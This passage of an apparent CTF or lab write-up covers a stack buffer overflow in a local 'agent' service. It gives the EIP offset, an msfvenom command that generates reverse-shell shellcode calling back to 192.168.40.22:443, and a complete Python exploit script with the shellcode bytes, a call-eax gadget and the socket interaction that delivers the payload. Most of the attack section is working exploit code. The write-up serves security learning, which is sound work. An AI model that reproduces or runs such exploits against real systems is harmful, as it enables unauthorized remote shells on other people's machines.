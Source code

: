 **Offset Calculation**: 168 characters required to reach EIP

![Offset Discovery](images/Pasted%20image%2020251005194442.png)

### Shellcode Storage

The EAX register contained user input, allowing shellcode storage:

![EAX Register](images/Pasted%20image%2020251005195138.png)

### Exploit Development

**Shellcode Generation**:
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.40.22 LPORT=443 -b '\x00\x0a\0xd' -f c
```

**Python Exploit Script**:
```python
#!/usr/bin/python3

from struct import pack
import socket

shellcode = (b"\xba\x48\xe5\xe9\x57\xdb\xdf\xd9\x74\x24\xf4\x58\x29\xc9"
b"\xb1\x12\x31\x50\x12\x83\xe8\xfc\x03\x18\xeb\x0b\xa2\xa9"
b"\x28\x3c\xae\x9a\x8d\x90\x5b\x1e\x9b\xf6\x2c\x78\x56\x78"
b"\xdf\xdd\xd8\x46\x2d\x5d\x51\xc0\x54\x35\xa2\x9a\x8f\xd3"
b"\x4a\xd9\xcf\xca\xd6\x54\x2e\x5c\x80\x36\xe0\xcf\xfe\xb4"
b"\x8b\x0e\xcd\x3b\xd9\xb8\xa0\x14\xad\x50\x55\x44\x7e\xc2"
b"\xcc\x13\x63\x50\x5c\xad\x85\xe4\x69\x60\xc5")

offset = 168

# objdump -d agent | grep -i "FF D0"
# 8048563: ff d0   call   *%eax

payload = shellcode + b"A" * (offset - len(shellcode)) + pack("<I", 0x08048563) + b"\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 7788))

s.recv(1024)
s.send(b"48093572\n")
s.recv(1024)

s.send(b"3\n")
s.recv(1024)
s.send(payload)
```